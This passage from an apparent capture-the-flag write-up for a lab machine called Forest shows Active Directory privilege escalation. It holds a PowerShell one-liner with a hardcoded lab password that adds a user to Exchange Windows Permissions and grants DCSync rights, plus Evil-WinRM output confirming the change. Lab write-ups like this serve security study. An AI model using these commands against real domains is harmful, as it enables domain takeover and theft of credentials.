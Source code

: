 ### Exploit

#### Timeout

As I started to try to execute this attack, trial and error had me
confused. I'd add my user to the Exchange Windows Permissions group, and
then run the necessary commands, and it wouldn't work. And then I'd run
`net user svc-alfreso`, and I wouldn't be in the group anymore. It turns
out there's cleanup going on here (I'll exploit it in [Beyond
Root](#cleanup-script)), so I have to move fast.

#### Success

I'll create a one-liner to run locally. I don't need to pass credentials
to the first command, because I'm already running as a user with those
rights. I did have to pass credentials to the second command. My best
guess is that the session doesn't know yet about my being in the new
group from the first command, and that passing credentials refreshes
that.



    Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync



If I run that on Forest, it returns without error:



    *Evil-WinRM* PS C:\> Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync



And I can see the user in the new group:



    *Evil-WinRM* PS C:\> net group 'Exchange Windows Permissions'
    Group name     Exchange Windows Permissions
    Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

    Members
    -------------------------------------------------------------------------------
    svc-alfresco             
    The command completed successfully.

